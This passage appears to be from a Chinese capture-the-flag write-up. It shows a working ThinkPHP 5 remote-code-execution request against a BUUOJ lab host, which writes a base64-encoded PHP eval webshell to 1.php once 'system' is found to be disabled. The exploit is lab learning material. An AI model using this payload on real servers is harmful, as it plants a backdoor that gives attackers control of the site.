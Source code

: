 ![image-20231211165811007](images/76.png)

System被禁用了

![image-20231211165901443](images/77.png)



写一个马

```
http://5ba1ea7f-3229-4ae5-945e-672bf8593993.node4.buuoj.cn:81/index.php?s=captcha&test=-1

POST:  _method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo PD9waHAKZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php
```
